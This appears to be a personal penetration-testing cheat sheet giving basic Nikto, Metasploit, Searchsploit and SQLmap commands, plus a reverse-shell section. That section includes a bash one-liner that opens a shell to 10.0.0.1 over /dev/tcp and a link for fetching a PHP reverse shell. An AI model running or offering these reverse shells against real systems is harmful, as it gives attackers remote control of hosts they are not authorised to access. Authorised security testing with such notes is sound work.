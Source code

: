 # Exploit

## Nikto
Check for vulnerabilities
```console
$ nikto -h <IP>
```

## Metasploit
Open console
```console
$ msfconsole
```
Search for exploit
```console
msf6 > search <KEYWORD> ?VERSION?
```
After found exploit, use it
```console
msf6 > use <ID>
```
Then, check for options
```console
msf6 > options
```
Set upp everything
```console
msf6 > set <KEY> <VALUE>
```

Then, letz go!
```console
msf6 > exploit -v
```

## Searchsploit
Search for exploit
```console
$ searchsploit <KEYWORDS>
```
After found exploit, get it
```console
$ searchsploit -m <ID/PATH>
```

## SQLmap
```console
$ sqlmap
```

## Reverse shell
Useful $hit

### Bash
```console
$ bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

### PHP reverse shell
This bull$hit windows defender does not allow to get this php file to my machine, so just grab it from a random github:
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

### Gopherus
Useful shit, if SSRF is available. https://github.com/tarunkant/Gopherus. Make sure to check all exploitable ports!
